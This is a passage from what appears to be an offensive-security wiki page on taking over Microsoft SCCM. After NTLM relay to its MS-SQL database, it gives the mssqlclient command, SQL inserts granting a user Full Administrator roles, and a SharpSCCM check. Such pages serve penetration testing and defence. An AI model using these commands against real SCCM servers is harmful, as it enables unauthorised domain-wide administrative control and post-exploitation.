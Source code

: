 The rest of this page is focusing on relaying the authentication on the MS-SQL service.

##### Step 4: Obtain an SQL console

If the NTLM relay attack is a success and was targeting the MS-SQL service with SOCKS support, an SQL console could be obtained on the SCCM database through the opened socks proxy. From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) (Python) can be used for that purpose.

```bash
proxychains mssqlclient.py "DOMAIN/SCCM-Server$"@"siteDatabase.domain.local" -windows-auth
```

Once the console is obtained, the attack can proceed to granting the user full privileges by running the following commands in the SQL console.


```
--Switch to site database
use CM_<site_code>

--Add the SID, the name of the current user, and the site code to the RBAC_Admins table
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (<SID_in_hex_format>,'DOMAIN\user',0,0,'','','','','<site_code>');

--Retrieve the AdminID of the added user
SELECT AdminID,LogonName FROM RBAC_Admins;

--Add records to the RBAC_ExtendedPermissions table granting the AdminID the Full Administrator (SMS0001R) RoleID for the “All Objects” scope (SMS00ALL), 
--the “All Systems” scope (SMS00001), 
--and the “All Users and User Groups” scope (SMS00004)
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (<AdminID>,'SMS0001R','SMS00ALL','29');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (<AdminID>,'SMS0001R','SMS00001','1');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (<AdminID>,'SMS0001R','SMS00004','1');

```


It is then possible to verify the new privileges on SCCM.


```
# this should be run on the windows SCCM client as the user that was just given full administrative role to 
.\SharpSCCM.exe get site-push-settings -mp "SCCM-Server" -sc "<site_code>"

```


Post exploitation via SCCM can now be performed on the network.

#### Relay to the HTTP API AdminService

> [!CAUTION]
> Some requirements are needed to perform the attack:
> 
> * The HTTP API for the AdminService service is reachable on the SMS Provider server
> * knowing the NetBIOS name, FQDN, or IP address of a site management point is required
> * knowing the NetBIOS name, FQDN, or IP address of the site SMS provider server is required
